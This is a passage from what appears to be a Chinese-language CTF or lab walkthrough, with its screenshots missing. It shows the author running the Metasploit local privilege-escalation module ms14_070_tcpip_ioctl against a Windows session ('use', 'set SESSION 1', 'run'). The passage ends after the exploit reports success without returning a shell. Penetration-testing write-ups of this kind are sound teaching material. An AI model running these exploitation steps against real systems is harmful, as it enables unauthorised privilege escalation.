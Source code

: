 ```
background
```

![Screenshot-2020-04-28-at-16.11.48](img/d20f2de13667e6c28d8018e28164e964.png)

我运行以下命令来使用我发现的漏洞

```
use exploit/windows/local/ms14_070_tcpip_ioctl
```

![Screenshot-2020-04-28-at-16.12.00](img/4ecf1c6d07ed44a63bdbb62b4aa1f8bb.png)

然后我检查这个漏洞的选项

![Screenshot-2020-04-28-at-16.12.33](img/2fe1e8a62208346c34533fb7df4440c9.png)

我将会话设置为

```
set SESSION 1
```

![Screenshot-2020-04-28-at-16.12.49](img/de94f9d7597ae2488df0ab27be6a0f66.png)

我运行漏洞利用

```
run
```

![Screenshot-2020-04-28-at-16.13.05](img/d70ef904668466552b30ea7cd1fe0a1b.png)

漏洞利用成功了，但是我没有拿回一个壳。我检查了选项

![Screenshot-2020-04-28-at-16.13.16](img/868a3ce3feafc3bd6d3f457762ad8d7b.png)
